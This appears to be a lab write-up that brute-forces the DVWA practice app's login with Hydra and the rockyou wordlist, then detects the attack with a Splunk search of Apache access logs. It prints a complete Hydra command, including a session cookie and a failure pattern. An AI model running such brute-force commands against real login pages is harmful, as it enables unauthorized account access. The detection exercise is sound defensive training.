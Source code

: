 Launching an Attack from Another PC in the LAN:

We will attack using the Hydra tool. First, we need to obtain the cookies from the website.

![image](https://github.com/user-attachments/assets/b58c9bc4-8ed9-410e-84d7-f626b2426b48)
 
using hyra tool:

payload:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
"http-get-form://172.17.128.158/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie: security=medium; PHPSESSID=5ba0cf3c373c345a17dbcfb19b595c31:F=Username and/or password incorrect"
```
This Hydra command is used for brute-forcing the login of a website.

-Target: 172.17.128.158/DVWA/vulnerabilities/brute/

-Username: Always "admin"

-Passwords: Attempted from the rockyou.txt list

-Cookies: Includes session info to bypass security

-Failure pattern: Looks for "incorrect password" message to know when to try the next password

![image](https://github.com/user-attachments/assets/fa79da0e-1857-40c3-8b0c-30cda63cb211)

Attack successful. Now, try to detect it from Splunk Enterprise:

We can see that there are a large number of login attempts being made and see that tool hydra been used.

![image](https://github.com/user-attachments/assets/8f5584f3-607f-4f3b-9ba6-e4d19acebaba)

We can see that there are a large number of login attempts being made

![image](https://github.com/user-attachments/assets/dcc87be5-310d-42e4-8c12-723bf30e77c8)
  
Many passwords have been tried during the attack, and we can confirm that it’s a brute-force attack

This table shows that a brute-force attack has occurred.
 
command 
```
host="victim"  source="/var/log/apache2/access.log" sourcetype=access_combined brute password hydra
| table _time clientip username password
```
![image](https://github.com/user-attachments/assets/958ac55c-6f98-4559-b93e-0bc85d1e1897)


